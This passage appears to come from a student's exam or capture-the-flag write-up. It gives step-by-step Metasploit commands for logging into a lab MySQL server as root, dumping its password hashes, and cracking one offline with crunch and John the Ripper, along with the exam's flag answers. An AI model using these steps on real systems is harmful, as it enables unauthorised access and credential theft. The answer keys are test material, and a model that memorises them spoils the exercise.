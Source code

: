 `run` or `exploit`

Wait for a bit, and it would say that it could login with `root:titanic`

Answer: titanic

# QUESTION 12

Text: The password for root user can be used to dump passwords/user table/hashdumps whatever its called. On the user names is the flag.

Solution:

`msfconsole` 

`search mysql`

`use auxiliary/scanner/mysql/mysql_hashdump`

`options` or `show options`

Need to set PASSWORD, RHOSTS, USERNAME

`set RHOSTS 192.168.28.18`

`set PASSWORD titanic`

`set USERNAME root`

`run` or `exploit`

After some time or couple of seconds it will show you the table with like users and their hashes.

ANSWER: EXAM{620140}

# QUESTION 13

Text: Perform offline cracking of the exam user (so the one user that has the flag as name) hash, and that will be a flag. The password looks like EXAM{XXXXXX}

Solution:

Copy the hash for the user from `msfconsole`, and put it in a file inside like Documents directory

`cd ~/Documents`

`nano user_hash`

insert the hash in there

Now create the wordlist. We know that the format is like EXAM{XXXXXX} so we use `crunch` for it. It contains 12 characters in total our format

`crunch 12 12 0123456789 -t EXAM{%%%%%%} -o pw.txt` (12 for min characters, 12 for max, -t for like what it should look like. The % are placeholders for numbers, @ are for letters. -o for output into a file)

Then put the same files in the same directory and run

`john user_hash --wordlist=pw.txt`
